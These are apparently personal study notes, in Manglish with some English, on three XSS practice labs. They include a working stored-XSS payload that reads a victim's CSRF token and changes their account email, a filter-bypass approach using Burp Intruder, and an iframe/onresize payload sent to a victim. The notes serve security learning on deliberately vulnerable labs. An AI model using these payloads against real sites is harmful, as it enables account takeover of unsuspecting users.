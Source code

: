 ========================================================

    Lab-4( Exploiting XSS to perform CSRF)
-->ivide namal xss combined with csrf use chyth user inte email change chyan sremikunu
-->so aadyam namude credential vech keruka.apol athil update email enna option kanum so ath inspect/view-source chyuka.enit aa req engot pokunu(action="") , athinte csrf token,athinte value ellam study chyuka
-->ith study chyumbol manasilakan patunathenthenal email change chyan passwd venda, pine ee request inte process engane ennal ith /my-account/change-email enna path ilek oru /POST request aan ayakunath with a parameter called "email".ith koodathe ithinte koode csrf token koodi und.
-->==This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address. ==
-->ithrem karyam manasilakiya sthithik ini nammal logout chyuka enit stored xss ulla sthalam kandethuka,ivide bog post ile comment section.so avide poi comment: il ee payload add chyuka:
       
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

ini ethengilum oru user ee page visit chythal avante email automatic aayi marum enit test@test.com ennakum
-->ith nadakunathinte pradhana karanam onn xss und,pine email change chyumbol passwd chodikunila.anti-csrf token unden paranjit karyamilla karanam xss undengil aa token kond valya karyamonum ila.ipo just csrf vulnerability marhramanengil ee token kond karyam undayene
-->so aadyam nammal xss undon en nokanam athilengil just csrf vulnerability mathrame chyan patu.athinu ivide csrf token um und
-->ee lab kond manasilakendath enthenal xss+csrf inte power aan

==========================================================

     Lab-5( Stored XSS into HTML context with nothing encoded)
-->ividem lab-1 il chythpole thane aake ulla oru vyathyasam enthenal ith stored xss aan.so search il poi ital aakila.stored means nammal kodukuna input server store chyanam
-->so ivide blog post il comment iduna sthalath stored xss und 
-->so <script>alert("hai")</script> koduth baki name,email oke koduth post comment adikuka.enit thirich athe post il poyal xss trigger chyapedunath kanam

==============================================================

     Lab-6(Reflected XSS into HTML context with most tags and attributes blocked)
-->ivide nammal lab open chyth search il poi <script>alert(1)</script> adikumbol tag is not allowed enn kanikunu
-->so aa request intruder il viduka enit allowed aaya tag cheat sheetil ninum intruder vazhi kandupidikuka
-->aadyam <$tag$> kandupidikuka 
-->then <body%20$attribute$=1> apol namuk ingane kitum:
             <body onresize=alert(1) />  so ith search il search chythit browser resize chythal ee alert pop up chyum
-->ini ith iframe tag il aaki victims in send chyanam:
		`<iframe src="https://your-lab-id.web-security-academy.net/search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`
-->ith koduthit store click chyuka enit deliver to victim koduthal solve aakum
	============================================================
